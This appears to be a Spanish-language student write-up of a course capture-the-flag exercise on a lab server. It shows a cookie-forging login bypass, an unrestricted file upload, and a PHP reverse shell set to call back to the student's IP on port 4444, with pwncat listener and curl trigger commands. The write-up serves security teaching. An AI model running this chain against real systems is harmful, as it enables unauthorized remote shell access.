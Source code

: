 # Writeup P2 Tarea 2

**Nombre**: Valentina Rojas Osorio

**Equipo**: Hack Pals

# Desarrollo 

 _Para la solución de este problema, se está obviando la **instalación** de herramientas vistas durante el curso, sin embargo, se especifica detalladamente cómo utilizarlas en cada paso. También se especifican usos e instalación de herramientas externas (no vistas)._
 
 _Además, se debe estar conectado a la VPN del CEC, para tener acceso al servidor 172.17.69.241_

---

 Comenzamos inspeccionando la página en blanco corroborando que efectivamente tiene cuerpo vacío.

1. Procedemos a buscar información sobre directorios a los que podamos acceder en el servidor (directorios con código de respuesta 200) con la herramienta [dirsearch](https://www.kali.org/tools/dirsearch/). Una vez completada la instalación, abrimos una consola en linux y ejecutamos
    ```
    $ dirsearch -u 172.17.69.241:8082
    ```

1. Encontramos los siguientes directorios:
    ```
    200  0B  /index.php
    200  0B  /index.php/login/
    200 13B  /upload.php
    301 323B /uploads
    ```
    
    Tenemos 3 directorios con response code 200, donde 2 de ellos parecen carecer de contenido al pesar 0 Bytes. Además, encontramos uno con response code 300 que nos indica que podríamos acceder a él si tuvieramos permisos.


1. Por lo tanto, ingresamos primero por intuición al directorio /upload.php. La página nos muestra el mensaje "Not logged in" lo que nos dice que al _loggearnos_ podríamos encontrar información.

1. Al inspeccionar la página _(172.17.69.241:8082/upload.php)_, encontramos en la pestaña _Storage_ una cookie de nombre _loggedin_ con valor 0, por lo tanto le cambiaremos el parámetro _value_ entregandole valor 1 y recargamos la página.

1. Al recargar, nos aparece un _form_ con un input de tipo _file_ y un botón de tipo _submit_. Aunque la página nos dice que subamos una imagen, intentamos subir un archivo de cualquier otra extensión (por ejemplo archivo.ext) y con éxito la página nos dice "The file has been uploaded to uploads/archivo.ext"

## Reverse Shell.
 
Aprovechando esta vulnerabilidad del formulario (no tener validador), procedemos atacando con con la técnica reverse shell como sigue:

1. Creamos un archivo php y copiamos [este código](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) en nuestro archivo. 

1. Editamos las líneas 49 y 50 del código, (las variables ip y port de la función set_time_limit() respectivamente) al estar conectados a la VPN del CEC nuestra IP es la VPN IP que se encuentra en la parte superior derecha de la barra de tareas de Kali. El puerto puede ser cualquier que no estemos usando. En mi caso, mi VPN IP es 10.41.0.34 y ocuparé el puerto 4444 para escuchar, de esta manera, la función de mi archivo php queda
    ```php
    set_time_limit (0);
    $VERSION = "1.0";
    $ip = '10.41.0.34';  // CHANGE THIS
    $port = 4444;       // CHANGE THIS
    $chunk_size = 1400;
    $write_a = null;
    $error_a = null;
    $shell = 'uname -a; w; id; /bin/sh -i';
    $daemon = 0;
    $debug = 0;
    ```
    * _Como recomendación personal, sugiero poner un nombre distintivo al archivo.php ya que puede ser sobreescrito por otro compañero con otra ip y otro puerto._

    Finalmente, subimos el archivo php al _form_, en mi caso el archivo "rilakkuma.php"
1. Ahora tendremos acceso a los directorios del servidor desde nuestra consola con la herramienta [pwncat](https://pwncat.readthedocs.io/en/latest/usage.html) podremos ver la información que está escuchando nuestro puerto. Para esto, abrimos una consola e ingresamos el comando
    ```
    $ pwncat --listen 4444
    ```
    $ Abrimos otra consola y ejecutamos
    ```
    $ curl 172.17.69.241:8082/uploads/rilakkuma.php
    ```
    Luego, volvemos a la consola donde ejecutamos pwncat y si el enlace fue exitoso en consola nos saldrá información como por ejemplo en qué maquina está corriendo el sv, versiones, etc.

1. Luego, al ejecutar los comandos
    ```
    $ cd
    $ ls
    ```
    Se mostrarán en consola varios directorios de la máquina que está hosteando el sv, ejecutamos los siguientes comandos para ir al directorio que contiene la flag
    ```
    $ cd var
    $ cd www
    $ cd html
    ```
1. En este directorio (html) tendremos la información de la pagina del servidor, para ver en consola los archivos/directorios incluidos los directorios secretos ejecutamos
    ```
    $ ls -a
    ```
    y se nos desplegará en consola los directorios
    ```
    .
    ..
    .secret-dir
    index.php
    upload.php
    uploads
    ```
1. Finalmente, como el directorio .secret.dir es el más sospechoso, accedemos al directorio, encontramos el archivo flag.txt y lo visualizamos en consola con el comando cat
    ```
    $ cd .secret-dir
    $ ls
    flag.txt
    $ cat flag.txt
    CC5325{RCEFlag}
    ```

# Resultados
La flag de este problema es 

        CC5325{RCEFlag}
    